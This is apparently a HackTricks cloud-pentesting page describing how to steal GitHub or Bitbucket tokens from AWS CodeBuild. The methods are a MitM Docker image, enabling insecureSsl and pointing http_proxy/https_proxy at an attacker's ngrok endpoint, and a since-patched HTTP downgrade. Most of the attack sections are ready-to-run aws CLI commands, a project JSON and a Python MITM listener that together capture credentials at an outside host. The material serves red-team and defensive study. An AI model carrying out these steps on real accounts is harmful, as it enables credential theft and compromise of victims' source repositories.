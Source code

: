 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured that you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   * Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     * **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   * You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   * Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   * Create a **new Codebuild project** or **modify** the environment of an existing one.
   * Set the project to use the **previously generated Docker image**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

{% hint style="success" %}
The **mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.
{% endhint %}

4. **Run the build & capture the credentials**

*   You can see the token in the **Authorization** header:

    <figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Enabling this, allows to Codebuild to connect to the repository **without checking the certificate** offered by the platform.

* First you need to enumerate the current configuration with something like:

```bash
aws codebuild batch-get-projects --name <proj-name>
```

* Then, with the gathered info you can update the project setting **`insecureSsl`** to **`True`**. The following is an example of my updating a project, notice the **`insecureSsl=True`** at the end (this is the only thing you need to change from the gathered configuration).
  * Moreover, add also the env variables **http\_proxy** and **https\_proxy** pointing to your tcp ngrok like:

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
    --source '{
        "type": "GITHUB",
        "location": "https://github.com/carlospolop/404checker",
        "gitCloneDepth": 1,
        "gitSubmodulesConfig": {
            "fetchSubmodules": false
        },
        "buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
        "auth": {
            "type": "CODECONNECTIONS",
            "resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
        },
        "reportBuildStatus": false,
        "insecureSsl": true
    }' \
    --environment '{
        "type": "LINUX_CONTAINER",
        "image": "aws/codebuild/standard:5.0",
        "computeType": "BUILD_GENERAL1_SMALL",
        "environmentVariables": [
            {
                "name": "http_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            },
            {
                "name": "https_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            }
        ]
    }'
```
{% endcode %}

* Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http\_proxy and https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="0.0.0.0",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Next, click on **Build the project** or start the build from command line:

```sh
aws codebuild start-build --project-name <proj-name>
```

* Finally, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

{% hint style="success" %}
**This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**
{% endhint %}

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

* An attacker could add the environment variables **http\_proxy** and **https\_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: `http://github.com/carlospolop-forks/TestActions`
* Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http\_proxy and https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
